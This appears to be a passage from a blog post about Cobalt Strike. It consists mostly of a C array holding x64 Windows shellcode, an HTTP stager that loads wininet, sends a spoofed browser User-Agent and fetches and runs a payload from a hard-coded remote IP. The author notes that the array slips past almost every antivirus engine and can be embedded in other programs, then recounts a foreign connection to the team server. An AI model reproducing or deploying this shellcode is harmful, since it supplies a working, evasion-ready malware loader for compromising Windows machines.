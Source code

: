 ```c
unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75\x72\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4f\xff\xff\xff\x5d\x6a\x00\x49\xbe\x77\x69\x6e\x69\x6e\x65\x74\x00\x41\x56\x49\x89\xe6\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x48\x31\xc9\x48\x31\xd2\x4d\x31\xc0\x4d\x31\xc9\x41\x50\x41\x50\x41\xba\x3a\x56\x79\xa7\xff\xd5\xeb\x73\x5a\x48\x89\xc1\x41\xb8\x50\x00\x00\x00\x4d\x31\xc9\x41\x51\x41\x51\x6a\x03\x41\x51\x41\xba\x57\x89\x9f\xc6\xff\xd5\xeb\x59\x5b\x48\x89\xc1\x48\x31\xd2\x49\x89\xd8\x4d\x31\xc9\x52\x68\x00\x02\x40\x84\x52\x52\x41\xba\xeb\x55\x2e\x3b\xff\xd5\x48\x89\xc6\x48\x83\xc3\x50\x6a\x0a\x5f\x48\x89\xf1\x48\x89\xda\x49\xc7\xc0\xff\xff\xff\xff\x4d\x31\xc9\x52\x52\x41\xba\x2d\x06\x18\x7b\xff\xd5\x85\xc0\x0f\x85\x9d\x01\x00\x00\x48\xff\xcf\x0f\x84\x8c\x01\x00\x00\xeb\xd3\xe9\xe4\x01\x00\x00\xe8\xa2\xff\xff\xff\x2f\x43\x41\x63\x76\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x55\x73\x65\x72\x2d\x41\x67\x65\x6e\x74\x3a\x20\x4d\x6f\x7a\x69\x6c\x6c\x61\x2f\x35\x2e\x30\x20\x28\x63\x6f\x6d\x70\x61\x74\x69\x62\x6c\x65\x3b\x20\x4d\x53\x49\x45\x20\x39\x2e\x30\x3b\x20\x57\x69\x6e\x64\x6f\x77\x73\x20\x4e\x54\x20\x36\x2e\x31\x3b\x20\x54\x72\x69\x64\x65\x6e\x74\x2f\x35\x2e\x30\x3b\x20\x42\x4f\x49\x45\x39\x3b\x45\x53\x45\x53\x29\x0d\x0a\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x41\xbe\xf0\xb5\xa2\x56\xff\xd5\x48\x31\xc9\xba\x00\x00\x40\x00\x41\xb8\x00\x10\x00\x00\x41\xb9\x40\x00\x00\x00\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x93\x53\x53\x48\x89\xe7\x48\x89\xf1\x48\x89\xda\x41\xb8\x00\x20\x00\x00\x49\x89\xf9\x41\xba\x12\x96\x89\xe2\xff\xd5\x48\x83\xc4\x20\x85\xc0\x74\xb6\x66\x8b\x07\x48\x01\xc3\x85\xc0\x75\xd7\x58\x58\x58\x48\x05\x00\x00\x00\x00\x50\xc3\xe8\x9f\xfd\xff\xff\x33\x35\x2e\x31\x39\x37\x2e\x30\x2e\x36\x32\x00\x00\x00\x00\x00";
```

Since it is just an array, [**it is undetectable by any of the AV engines on VirusTotal**](https://www.virustotal.com/gui/file/692d0a21d6d0336294512c5b9a5aa614a301ff618252b9bd6c8eee3415931a04/community) (though it is included in Avast's YARA Ruleset). This has huge security implications — this shellcode can be embedded in other programs to great effect.

I wrapped the buffer array in a small C function for compilation purposes and submitted the binary to VirusTotal, which then yielded [four detections](https://www.virustotal.com/gui/file/e15f98297dc5b89128387c95de8014c4182623ad4c50ed85c318fb0240a1e0e5/detections), a pitifully small amount nonetheless.

### Foreign Connection?

While I was toying with the Scripted Web-Delivery functionality, I noticed I received a new connection to my Cobalt Strike team server, however, from a computer I do not own! I ran a WHOIS lookup against the IP address; as it happened, the instance that connected to my Cobalt Strike session is part of Autonomous System Number 9808: Guangdong Province, China. is this some kind of reverse attack, I wonder? Perhaps Cobalt Strike has vulnerabilities of its own.
